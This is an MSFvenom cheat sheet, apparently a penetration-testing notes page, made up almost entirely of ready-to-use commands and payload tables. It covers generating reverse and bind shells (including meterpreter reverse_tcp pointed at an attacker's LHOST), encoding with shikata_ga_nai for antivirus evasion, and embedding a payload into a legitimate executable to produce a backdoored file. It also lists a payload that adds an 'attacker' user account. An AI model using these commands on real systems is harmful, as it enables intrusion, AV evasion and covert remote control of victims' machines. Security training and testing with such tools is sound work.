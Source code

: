 # MSFvenom

For generation of payload shellcode and encoder for AV evasion.

A sample of MSFvenom command to generate shellcode of the bind\_tcp payload as below:

`msfvenom -a x86 --platform Windows -p windows/shell/bind_tcp -e x86/shikata_ga_nai -b '\x00' -i 3 -f python`

Architecture: `-a`

Platform: `--platform`

Payload to be use: `-p`

Encoding \(for AV evasion, often `x86/shikata_ga_nai` \): `-e`

Embed in non-malicious file by using a template: `-x`

```text
 msfvenom -a x86 --platform windows -x sol.exe -k -p windows/messagebox lhost=192.168.101.133 -b "\x00" -f exe -o sol_bdoor.exe
```

Number of times to encode the payload: `-i`

Output format: `-f`

Help: `-h`

Variable \(default value is `buf`\): `-v`

Avoid bad character \(such as `'\x00'`\): `-b`

create the smallest shellcode possible: `–smallest`

add a few NOPs at the start of your payload: `-n`

```text
msfvenom -a x86 --platform Windows -p windows/shell/bind_tcp -e generic/none -f python -n 26
```

**List of Available Platform:**

```text
Cisco or cisco
OSX or osx
Solaris or solaris
BSD or bsd
OpenBSD or openbsd
hardware
Firefox or firefox
BSDi or bsdi
NetBSD or netbsd
NodeJS or nodejs
FreeBSD or freebsd
Python or python
AIX or aix
JavaScript or javascript
HPUX or hpux
PHP or php
Irix or irix
Unix or unix
Linux or linux
Ruby or ruby
Java or java
Android or android
Netware or netware
Windows or windows
mainframe
multi
```

**List of Available formats:** `-help-format`

```text
asp, aspx, aspx-exe, dll, **elf**, elf-so, **exe**, **exe-only**, exe-service, exe-small,
hta-psh, loop-vbs, **macho**, msi, msi-nouac, osx-app, psh, psh-net, psh-reflection,
psh-cmd, vba, vba-exe, vba-psh, vbs, war
```

Transform formats

```text
bash, c, csharp, dw, dword, hex, java, js_be, js_le, num, perl, pl,
powershell, ps1, py, python, raw, rb, ruby, sh,
vbapplication, vbscript
```

Typical payloads Sample command:

```text
msfvenom -p windows/meterpreter/reverse\_tcp LHOST=(IP Address) LPORT=(Your Port) -f exe -o reverse.exe
```

Windows \(`-f exe`\)

| Shell |  | Arguments |
| :--- | :--- | :--- |
| Reverse Shell | `windows/meterpreter/reverse_tcp` | LHOST, LPORT |
| Bind Shell | `windows/meterpreter/bind_tcp` | RHOST, LPORT |
| Create User | `windows/adduser USER=attacker PASS=attacker@123` |  |
| CMD |  | LHOST, LPORT |
| Encoder | `-e shikata_ga_nai` |  |

Linux \(`-f elf`\)

| Shell |  | Arguments |
| :--- | :--- | :--- |
| Reverse Shell | `linux/x86/meterpreter/reverse_tcp` | LHOST, LPORT |
| Bind Shell | `linux/x86/meterpreter/bind_tcp` | RHOST, LPORT |
| Generic Shell | `generic/shell_bind_tcp` | RHOST, LPORT |

Mac OS \(`-f macho`\)

| Shell |  | Arguments |
| :--- | :--- | :--- |
| Reverse Shell | `osx/x86/shell_reverse_tcp` | LHOST, LPORT |
| Bind Shell | `osx/x86/shell_bind_tcp` | RHOST, LPORT |

